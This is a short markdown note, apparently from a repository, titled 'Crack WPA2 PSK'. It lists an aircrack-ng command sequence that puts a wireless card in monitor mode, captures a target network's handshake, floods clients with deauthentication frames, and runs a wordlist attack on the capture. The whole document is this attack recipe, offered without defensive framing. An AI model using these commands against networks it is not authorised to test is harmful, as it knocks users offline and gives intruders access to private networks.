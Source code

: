 
## Crack WPA2 PSK

iwconfig
airmon-ng start wlan0
airmon-ng check kill
airodump-ng mon0
airodump-ng --bssid [] -c [] --write WPAcrack mon0
aireplay-ng --deauth 100 -a [mac] mon0
aircrack-ng WPAcrack-01.cap -w [wordlist]


#####
